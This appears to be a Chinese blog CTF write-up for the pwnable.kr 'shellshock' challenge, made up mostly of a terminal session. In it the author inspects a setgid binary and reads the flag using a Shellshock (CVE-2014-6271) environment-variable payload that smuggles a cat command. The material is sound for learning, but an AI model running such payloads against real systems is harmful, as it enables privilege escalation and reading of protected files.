

<!--yml
category: 未分类
date: 2022-04-26 14:36:36
-->

# PWN shellshock [pwnable.kr]CTF writeup题解系列9_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103798246](https://blog.csdn.net/fastergohome/article/details/103798246)

破壳漏洞


 

操作过程

```
root@mypwn:/ctf/work/pwnable.kr# ssh shellshock@pwnable.kr -p2222
shellshock@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 12:14:12 2020 from 120.84.12.64
shellshock@prowl:~$ strings shellshock
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
getegid
__libc_start_main
GLIBC_2.2.5
fff.
[A\]
l$ L
t$(L
|$0H
/home/shellshock/bash -c 'echo shock_me'
;*3$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
call_gmon_start
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6531
dtor_idx.6533
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
shellshock.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
data_start
setresuid@@GLIBC_2.2.5
_edata
_fini
setresgid@@GLIBC_2.2.5
system@@GLIBC_2.2.5
__DTOR_END__
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
_end
_start
getegid@@GLIBC_2.2.5
__bss_start
main
_Jv_RegisterClasses
_init
shellshock@prowl:~$ ./shellshock 
shock_me
shellshock@prowl:~$ bash -c './shellshock;cat flag'
shock_me
cat: flag: Permission denied
shellshock@prowl:~$ ./bash -c './shellshock;cat flag'
shock_me
cat: flag: Permission denied
shellshock@prowl:~$ find .
.
./shellshock.c
./flag
./.bash_history
find: ‘./.bash_history’: Permission denied
./.pwntools-cache
./.pwntools-cache/update
./shellshock
./bash
./.irssi
./.irssi/config
shellshock@prowl:~$ sudo -l
[sudo] password for shellshock: 
Sorry, user shellshock may not run sudo on prowl.lawn.gatech.edu.
shellshock@prowl:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
shellshock@prowl:~$ sudo ./shellshock 
[sudo] password for shellshock: 
shellshock is not in the sudoers file.  This incident will be reported.
shellshock@prowl:~$ cat shellshock.c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

shellshock@prowl:~$ echo shellshock.c
shellshock.c
shellshock@prowl:~$ echo shellshock
shellshock
shellshock@prowl:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
shellshock@prowl:~$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test" 
this is a test
shellshock@prowl:~$ 
shellshock@prowl:~$ env x='() { :;}; bash -c "cat ./flag"' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
shellshock@prowl:~$ Connection to pwnable.kr closed by remote host.
Connection to pwnable.kr closed.
root@mypwn:/ctf/work/pwnable.kr# 
```

破壳漏洞参考：[https://www.freebuf.com/articles/system/45390.html](https://www.freebuf.com/articles/system/45390.html)